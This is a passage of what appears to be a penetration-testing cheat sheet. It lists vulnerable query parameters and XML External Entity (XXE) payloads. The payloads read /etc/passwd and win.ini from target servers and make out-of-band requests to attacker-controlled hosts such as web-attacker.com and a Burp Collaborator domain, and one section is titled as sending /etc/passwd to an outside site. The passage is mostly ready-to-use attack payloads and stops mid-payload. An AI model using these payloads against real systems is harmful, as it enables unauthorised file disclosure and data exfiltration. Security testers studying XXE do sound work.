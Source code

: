 ```http
?list_type={payload}
?url={payload}
?terms={payload}
?catagortid={payload}
?key={payload}
?l={payload}
?begindate={payload}
?enddate={payload}
```
--------------------------------------------------------------------------------------------------------------
# XXE common payloads
### XXE: read local files
  `linux`
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

  `windows`
 ```xml
  <?xml version = "1.0"?>
  <!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///windows/win.ini"> ]>
<order>
  <quantity>1</quantity>
  <item>
&exploit;
</item>
  <address>USA</address>
  </order>
 ```
If the output of the `win.ini` file on the target returns the response message, then it proves that the XML External Entity vulnerability is present.

### use replace funtion if case sensitive
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&exploit;</lastName>
</userInfo>
```

### XXE - Out-of-band - payloads
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
```
##### Send the content of `/etc/passwd` to `www.akr3ch.com`, you may receive only the first line.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
```